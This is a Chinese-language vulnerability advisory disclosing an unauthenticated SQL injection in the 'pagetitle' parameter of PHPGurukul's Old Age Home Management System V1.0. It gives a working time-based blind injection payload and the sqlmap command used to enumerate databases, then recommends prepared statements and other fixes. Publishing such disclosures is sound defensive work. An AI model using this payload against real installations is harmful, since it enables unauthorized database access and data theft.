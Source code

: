 # PHPGurukul 养老院管理系统 V1.0 /admin/aboutus.php SQL 注入

# 受影响产品的名称

- 养老院管理系统

## 供应商主页

- https://phpgurukul.com/old-age-home-management-system-using-php-and-mysql/

# 受影响或已修复的版本

## 提交者

- 0xabandon

## 漏洞文件

- /admin/aboutus.php

## 版本

- V1.0

## 软件链接

- https://phpgurukul.com/projects/Old-Age-Home-MS-using-PHP.zip

# 问题类型

## 漏洞类型

- SQL 注入

## 根本原因

- 在“养老院管理系统“项目中的“/admin/aboutus.php”文件中发现一个 SQL 注入漏洞。导致此问题的原因是攻击者从参数”pagetitle“中注入恶意代码，并直接在 SQL 查询中使用，而无需进行适当的清理或验证。这允许攻击者伪造输入值，从而操纵 SQL 查询并执行未经授权的操作。

## 影响

- 攻击者可利用此 SQL 注入漏洞，实现未经授权的数据库访问、敏感数据泄漏、数据篡改、全面系统控制，甚至服务中断，对系统安全和业务连续性构成严重威胁。

# 描述

- 在对 “养老院管理系统 ”进行安全检查时，发现“/admin/aboutus.php”文件中存在严重的 SQL 注入漏洞。该漏洞源于“pagetitle”参数的用户输入验证不足，允许攻击者注入恶意 SQL 查询。因此，攻击者可在未经授权的情况下访问数据库、修改或删除数据以及访问敏感信息。需要立即采取补救措施，以确保系统安全和保护数据完整性。

# 利用此漏洞无需登录或授权

# 漏洞详情和 POC

## 漏洞:

- “pagetitle”参数

## Payload:

```makefile
Parameter: pagetitle (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: pagetitle=11' AND (SELECT 8073 FROM (SELECT(SLEEP(5)))oHyY) AND 'KynK'='KynK&pagedes=11&submit=
```

## 以下是使用 sqlmap 工具测试和运行时获得的一些具体信息的截图：

```bash
    sqlmap -u "http://10.20.33.25/oahms/admin/aboutus.php" --data="pagetitle=11&pagedes=11&submit=" --dbs
```

![Image](https://github.com/user-attachments/assets/21f28f53-1535-4025-b76a-340e01387c5a)

# 修复建议

1. **使用准备语句和参数绑定：**
   准备语句可防止 SQL 注入，因为它们将 SQL 代码与用户输入数据分开。使用准备语句时，用户输入的值将被视为纯数据，不会被解释为 SQL 代码。

2. **输入验证和过滤：**
   严格验证和过滤用户输入数据，确保其符合预期格式。

3. **尽量减少数据库用户权限：**
   确保用于连接数据库的账户具有最低必要权限。避免在日常操作中使用具有高级权限的账户（如 “root ”或 “admin”）。

4. **定期安全审计：**
   定期进行代码和系统安全审计，及时发现并修复潜在的安全漏洞。